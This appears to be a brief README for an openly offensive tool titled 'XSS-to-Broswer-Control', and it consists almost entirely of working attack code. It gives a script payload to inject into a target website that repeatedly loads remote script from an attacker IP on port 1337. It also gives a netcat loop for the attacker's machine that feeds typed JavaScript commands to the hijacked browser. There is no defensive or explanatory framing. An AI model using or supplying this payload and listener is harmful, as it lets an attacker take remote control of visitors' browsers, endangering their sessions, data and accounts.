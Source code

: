 # XSS-to-Broswer-Control

* Website to Attack:

* <script>setInterval(function(){d=document;z=d.createElement("script");z.src="//192.168.78.129:1337";d.body.appendChild(z)},0)</script>


* Attackers Machine:

* while :; do printf "@x11>$ "; read c; echo $c | nc -vvlp 1337 >/dev/null; done
